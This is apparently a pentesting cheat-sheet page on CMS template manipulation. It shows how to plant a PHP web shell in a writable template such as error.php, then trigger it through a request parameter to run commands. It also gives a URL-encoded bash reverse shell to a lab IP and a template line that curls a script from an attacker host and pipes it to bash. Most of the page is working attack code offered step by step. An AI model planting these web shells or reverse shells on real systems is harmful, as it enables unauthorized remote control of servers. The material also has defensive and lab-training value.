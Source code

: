 ```yaml
---
icon: masks-theater
---
```


# Template Manipulation

{% hint style="info" %}
## <mark style="color:red;">`PHP`</mark>

* <mark style="color:purple;">Navigate to</mark> <mark style="color:orange;">**`site templates`**</mark>
* <mark style="color:purple;">Look for writable files (Normally</mark> <mark style="color:orange;">**`error.php`**</mark> <mark style="color:purple;">is a good one to look at)</mark>
* <mark style="color:purple;">Add this code at the beginning of the file:</mark>

{% code overflow="wrap" %}
```php
if (isset($_REQUEST['tokyo'])) {
  system($_REQUEST['tokyo']);
  die();
}
```
{% endcode %}

* <mark style="color:purple;">Visiting a page that doesn't exist will raise a error page, if the argument passed is</mark> <mark style="color:orange;">**`tokyo`**</mark><mark style="color:purple;">, it will be run with</mark> <mark style="color:orange;">**`system`**</mark> <mark style="color:purple;">; allowing to code execution:</mark>

```url
/nonexistentsite?tokyo=id
```

* <mark style="color:purple;">From here you can spawn a</mark> <mark style="color:orange;">**`reverse shell`**</mark> <mark style="color:purple;">by passing it as an argument:</mark>

```url
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.6/4444+0>%261'
```

***

* <mark style="color:purple;">Alternatively, you can write the reverse shell directly on the template:</mark>

```php
<?php system("curl 10.10.14.70:8080/rev.sh|bash"); ?>
```

* <mark style="color:purple;">Then, create</mark> <mark style="color:orange;">**`rev.sh`**</mark>&#x20;

{% code overflow="wrap" %}
```bash
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.70/4444 0>&1' > rev.sh
```
{% endcode %}

* <mark style="color:purple;">Setup a python web server, get your listener ready and trigger the</mark> <mark style="color:orange;">**`error.php`**</mark>
{% endhint %}

